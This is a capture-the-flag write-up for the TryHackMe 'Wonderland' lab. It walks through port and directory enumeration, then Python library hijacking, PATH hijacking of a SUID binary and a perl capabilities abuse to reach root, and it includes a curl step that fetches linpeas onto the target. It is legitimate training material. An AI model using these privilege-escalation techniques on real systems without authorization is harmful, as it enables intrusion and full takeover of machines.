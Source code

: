 Room: [Wonderland](https://tryhackme.com/room/wonderland)

Difficulty: Medium

Overview: This room is really interesting has you are going to exploit diferent types of privilege escalations, from PATH hijacking, scripting, analyzing binaries and setuid capabilities will make you privesc horizontaly from user to user till you get to root!

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

We start enumerating the machine by running nmap. 

Nmap is a free and open source utility for network discovery and security auditing. With this tool we can search for open ports on a target machine.

**nmap -sV -sC -p- 10.10.189.225 -oN nmap.txt**

-sV    →  Probe open ports to determine service

-sC    →  Scan using the default set of scripts

-p-    →  Scan all ports

-oN    →  Save the ouput of the scan in a file

![nmap](https://user-images.githubusercontent.com/76821053/120692473-b7f40980-c49f-11eb-982b-ebe00cb8f77a.png)

There are two open ports on the system:

22 →  OpenSSH 7.6p1 Ubuntu 

80 →  Golang net/http server

Since there is a http server running on the system we can take a look at it:

![httphome](https://user-images.githubusercontent.com/76821053/120692565-d78b3200-c49f-11eb-8ead-c1b985a7d705.png)

After searching the webpage and its source code page i found nothing. So there is a tool called “Gobuster” which can help us search for hidden directories or files in http servers:

**gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://10.10.189.225 -x .txt,.cgi,.php,.log,.bak,.xxx,.old**

dir             → Uses directory/file enumeration mode

--wordlist      → Path to wordslist 

--url           → specifies the path of the target url we want to find any hidden directories

-x              → Search for all files with the specified extentions 

![gobuster_r](https://user-images.githubusercontent.com/76821053/120692664-fc7fa500-c49f-11eb-8f64-f80ed0af4e7b.png)

We found a new directory:

![httphome](https://user-images.githubusercontent.com/76821053/120692711-0c978480-c4a0-11eb-9c06-7a6c5b320787.png)

After reading the “Keep going” tip, i ran “Gobuster” again and found another directory:

![gobuster_a](https://user-images.githubusercontent.com/76821053/120692819-2df87080-c4a0-11eb-9b62-3ac1c16100d9.png)

So if we pay close attention to where this is leading us, we can figure it out, or else we can always keep going with “Gobuster”.

We arrived at the path **"/r/a/b/b/i/t"**:

![http_rabbit](https://user-images.githubusercontent.com/76821053/120692924-4cf70280-c4a0-11eb-8dbc-855abf925ed2.png)

In the source code of the webpage there are credentials for connecting to the target machine through ssh.

![http_source](https://user-images.githubusercontent.com/76821053/120693064-7748c000-c4a0-11eb-9570-425f75026a74.png)

We have access to the target machine with user "Alice":

![ssh_alice](https://user-images.githubusercontent.com/76821053/120693141-8d568080-c4a0-11eb-9499-54b91b12833b.png)

When enumerating the machine in search for the flags, we can see that The flag “root.txt” is in “alice” home directory which is odd.

![ls_la_alice](https://user-images.githubusercontent.com/76821053/120693204-a2331400-c4a0-11eb-9b9a-2518386f5302.png)

After checking the hint given by the room “Everthing is upside down here” i tried to access /root.

![ls_root](https://user-images.githubusercontent.com/76821053/120693289-bd9e1f00-c4a0-11eb-8ad7-c1fcbe77d01e.png)

This is very strange since we cannot list any files in here, but still i manage to have access to /root directory. 

So taking a wild guess from the tips of the room we can try to read "user.txt" inside /root and find the first flag!

![cat_user txt](https://user-images.githubusercontent.com/76821053/120693405-deff0b00-c4a0-11eb-85aa-6cb6886e0b78.png)

In order to elevate our privileges we can check "sudo -l":

![sudo_l](https://user-images.githubusercontent.com/76821053/120693519-0229ba80-c4a1-11eb-8a03-e3ae516d5721.png)

To exploit this permission given to “alice” and gain access to user "rabbit" we can check a usefull post on medium about python library hijacking:

You can check it out here:

https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

The script "walrus_and_the_carpenter.py" imports a module called random.

![script_walrus](https://user-images.githubusercontent.com/76821053/120693624-22597980-c4a1-11eb-96c5-a66b7a9e997e.png)

The random module is located in one of the defined python paths, but if python finds a module with the same name in a folder with higher priority, it will import that module instead of the “legit” one.

So if we try and create a “random.py” script that runs /bin/bash inside the same directory of “walrus_and_the_carpenter.py”. Maybe “walrus_and_the_carpenter.py” will call for this module instead of the defined python module paths.

Simple random.py script:

![simple_random](https://user-images.githubusercontent.com/76821053/120693774-592f8f80-c4a1-11eb-8bff-7b539b7fce35.png)

List the contents of the directory to make sure the scripts are in the same directory:

![list_folder_scripts](https://user-images.githubusercontent.com/76821053/120693870-76645e00-c4a1-11eb-98c6-2f6c1042ccac.png)

Now we just need to run the "sudo -l" command with "alice".

Note that we need to specify user “rabbit” since he is the one with sudo permissions to run that python script.

![alice_rabbit_privesc](https://user-images.githubusercontent.com/76821053/120694022-a3187580-c4a1-11eb-91db-e588c5e36d84.png)

Success we are now user “rabbit”, the script “walrus_and_the_carpenter.py" imported our “random.py” and ran it.

To further our privileges we will try to take advantage of a binary inside “rabbit” home directory:

![teaParty_rabbit](https://user-images.githubusercontent.com/76821053/120694146-c3e0cb00-c4a1-11eb-985b-a51767144fd0.png)

Run the binary:

![run_teaparty](https://user-images.githubusercontent.com/76821053/120694189-d22ee700-c4a1-11eb-87a3-2e60f53a814b.png)

The binary “teaParty” has SUID permissions, and to be able to read its contents we need to transfer it to our system, since we cannot run strings on the target machine.

To transfer the file to our system we need to change “rabbit” home directory permissions to "rwx (or 777)" for all users since we don't have "rabbit's" ssh password.

![chmod_rabbit](https://user-images.githubusercontent.com/76821053/120694580-4ff2f280-c4a2-11eb-8107-e1065ce3a692.png)

From our machine we can run scp to download the file:

**scp alice@10.10.189.225:/home/rabbit/teaParty .**

![scp](https://user-images.githubusercontent.com/76821053/120694668-65681c80-c4a2-11eb-834b-15c31407b75f.png)

Now we gonna analyse the binary with "strings":

![strings_teaparty](https://user-images.githubusercontent.com/76821053/120694782-7f096400-c4a2-11eb-9419-da455c3d53f8.png)

We can see that the binary runs “/bin/echo” and also runs “date” but it don't specify the absolute path for "date".

This is another privilege escalation method here, we will take advantage of the SUID binary teaParty!

We have to create a small “date” bash script that calls for /bin/bash and export $PATH to one specified by us and take advange of “date” not having a absolute path.

![script_date](https://user-images.githubusercontent.com/76821053/120694943-ab24e500-c4a2-11eb-840e-5bf411021bbf.png)

Need to make “date” executable:

![chmod_date](https://user-images.githubusercontent.com/76821053/120694982-b9730100-c4a2-11eb-8d83-dbcebea4f85d.png)

Now just export the variable $PATH and run the binary:

![export_PATH](https://user-images.githubusercontent.com/76821053/120695104-e8897280-c4a2-11eb-8e86-803d5f22d0d4.png)

We manage the move horizontaly to another user and there is credentials in plain text in his home directory:

![hatter_creds](https://user-images.githubusercontent.com/76821053/120695203-0bb42200-c4a3-11eb-8772-8a03cfac1fc1.png)

I had a hard time with the user “hatter” in finding the last privilege escalation into “root” user.

we can use a tool called "[linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)" to automaticaly enumerate the system.

Now to upload the tool to the target system we need to started a python http server and use curl.

On our machine we setup the server where we host the “linpeas.sh” script:

**python -m SimpleHTTPServer**

![python_http](https://user-images.githubusercontent.com/76821053/120695863-c2180700-c4a3-11eb-85ee-d2251510af65.png)

From the target machine we will use curl:

**curl http://yourmachineip:8000/linpeas.sh -o linpeas.sh**

![curl_linpeas](https://user-images.githubusercontent.com/76821053/120695950-dcea7b80-c4a3-11eb-9a9c-44494c7f634c.png)

We need to make “linpeas.sh” executable:

![chmod_linpeas](https://user-images.githubusercontent.com/76821053/120695996-ed9af180-c4a3-11eb-80b8-592be139a4c2.png)

When running “linpeas.sh” i manage to found and interesting setuid binary capabilities:

![lin_capabilities](https://user-images.githubusercontent.com/76821053/120696069-03101b80-c4a4-11eb-8f58-114ca4412c41.png)

The root user (or any ID with UID of 0) gets a special privileges running processes. The kernel and applications are usually programmed to skip the restriction of some activities when seeing this user ID. 

More info on setuid capabilities can be found [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities).

I searched [GTFOBINS](https://gtfobins.github.io/gtfobins/perl/) and learned that **/usr/bin/perl** is found vulnerable to privesc.

![gtfobins](https://user-images.githubusercontent.com/76821053/120696194-2a66e880-c4a4-11eb-8d16-93fec8b6cf26.png)

Now to elevate our privileges to root we just need to execute this command:

![privesc_cat_root](https://user-images.githubusercontent.com/76821053/120696264-410d3f80-c4a4-11eb-877f-f4f6289e54c3.png)

Success! We found our last flag!














